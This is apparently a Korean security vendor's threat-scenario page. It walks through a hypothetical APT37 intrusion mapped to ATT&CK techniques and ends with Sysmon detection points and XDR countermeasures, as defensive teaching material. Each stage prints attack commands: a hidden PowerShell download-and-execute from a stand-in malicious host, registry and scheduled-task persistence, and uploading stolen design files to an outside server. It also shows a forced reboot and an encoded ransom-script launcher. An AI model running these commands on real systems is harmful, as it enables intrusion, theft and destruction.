 # APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          |
| --- | ------------------------------------- | --------------------------- |
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 |
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          |
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         |
| --- | --------------------------------------- | -------------------------- |
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 사용자 로그인 시 자동 실행 |

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "%APPDATA%\update.exe"
```

| 순서  | TID                                     | 행위                         |
| --- | --------------------------------------- | -------------------------- |
| 2-3   | T1053.005 – Scheduled Task              | SYSTEM 권한 확보 위한 예약 작업 생성      |

```cmd
schtasks /Create /RU SYSTEM /SC ONSTART /TN "SvcInit" /TR "%APPDATA%\update.exe"
```

---

## 3️⃣ 시스템·사용자 조사 (Discovery)

| 순서  | TID                                  | 행위                       |
| --- | ------------------------------------ | ------------------------ |
| 3-1 | T1082 – System Information Discovery | OS, 패치, 도메인 정보 수집        |
| 3-2 | T1033 – System Owner/User Discovery  | 사용자 정보 및 권한 확인           |
| 3-3 | T1057 – Process Discovery            | 백신 및 보안 프로세스 확인          |
| 3-4 | T1120 – Peripheral Device Discovery  | 외장 USB 탐지 (설계도 백업 여부 확인) |

```powershell
powershell -c "Get-PnpDevice -Class USB"
```

---

## 4️⃣ 자격 증명·데이터 수집 (Credential Access / Collection)

| 순서  | TID                                       | 행위              |
| --- | ----------------------------------------- | --------------- |
| 4-1 | T1555.003 – Credentials from Web Browsers | Chrome 저장 암호 덤프 |

```powershell
powershell -ep bypass -c "(Get-ItemProperty -Path 'HKCU:\Software\Google\Chrome\...') > '%TEMP%\chrome_creds.txt'"
```

\| 4-2   | T1005 – Data from Local System            | CAD/PDF 도면 검색 및 ZIP 압축 |

```powershell
$dir="C:\Projects"; $zip="$env:TEMP\designs.zip"; Compress-Archive -Path $dir\*.pdf,$dir\*.dwg -DestinationPath $zip
```

\| 4-3   | T1123 – Audio Capture                     | 회의 녹음 15초                |

```cmd
"%ProgramFiles%\AudioRecorder.exe" -out "%TEMP%\meeting.wav" -d 15
```

---

## 5️⃣ C2 통신·데이터 유출 (Command & Control / Exfiltration)

| 순서  | TID                               | 행위               |
| --- | --------------------------------- | ---------------- |
| 5-1 | T1071.001 – Web Protocols (HTTPS) | CDN 기반 HTTPS 터널링 |

```cmd
bitsadmin /transfer myDownload /download /priority normal "https://cdn.dropzone.net/beacon" "%TEMP%\b.dat"
```

\| 5-2   | T1105 – Ingress Tool Transfer     | 설계도 압축본 업로드     |

```powershell
Invoke-RestMethod "https://cdn.dropzone.net/upload" -InFile "$env:TEMP\designs.zip"
```

---

## 6️⃣ 파괴 행위 (Impact)

| 순서  | TID                            | 행위                 |
| --- | ------------------------------ | ------------------ |
| 6-1 | T1529 – System Shutdown/Reboot | 강제 재부팅 → 암호화 전환 시도 |

```cmd
shutdown /r /t 1 /f
```

\| 6-2   | T1027 – Obfuscated Files or Information | 랜섬노트 실행 Base64 인젝션 |

```powershell
powershell -c "IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('base64encodedransomscript==')))"
```

---

## 📌 탐지·수색 포인트 요약

| 단계     | Sysmon/Event ID           | 탐지 키워드                         |
| ------ | ------------------------- | ------------------------------ |
| 권한 상승  | Sysmon 1 (ProcessCreate)  | `Akagi64.exe`, `fodhelper.exe` |
| 시스템 조사 | Sysmon 1 / 4688           | `systeminfo`, `wmic`, `whoami` |
| 자격 탈취  | Event ID 4656             | `Chrome Login Data` 접근         |
| 외부 전송  | Sysmon 3 (NetworkConnect) | 외부 443 → SNI: `cdn-*`          |
| 시스템 파괴 | Event ID 1074             | `Shutdown Type: restart`       |

---

## 🔒 PLURA-XDR 대응 방법 요약 및 참고 자료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히 보기](plura_waf_xdr_detection.md)

---
